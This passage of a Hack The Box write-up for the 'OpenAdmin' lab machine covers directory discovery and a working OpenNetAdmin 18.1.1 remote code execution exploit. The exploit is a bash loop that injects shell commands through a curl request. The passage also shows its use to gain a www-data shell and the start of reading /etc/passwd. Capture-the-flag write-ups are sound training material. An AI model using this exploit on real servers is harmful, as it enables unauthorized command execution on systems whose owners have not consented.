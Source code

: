 This time we found /sierra and /ona, so there is new hope (and this time gobuster also informed me about the .htaccess).  
On /sierra we also find a lot of lorem-ipsum text but the /ona endpoint proved to be very interesting because it showed us that OpenNetAdmin is running on the box (something I have personally never heard of before), and it also tells us that it is an outdated version of OpenNetAdmin. A google search for 'OpenNetAdmin 18.1.1 Exploit' came back with an RCE as the first result.

```
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Copied that into a local file and we are ready to use it. 

```
mindslave@kalibox:~/hackthebox/OpenAdmin$ ./exploit.sh 10.10.10.171/ona/
$ whoami
www-data
```

# 0x2 Getting the user.txt 

Now this part of the box took really, and I mean really, long for me.  
The first useful thing I found by looking at /etc/home is that there  
are 2 users jimmy and joanna
from looking at the /etc/passwd we could also learn that jimmy is the admin for the apache server

```
/etc/apache2/sites-available/openadmin.conf:    ServerAdmin jimmy@openadmin.htb
```
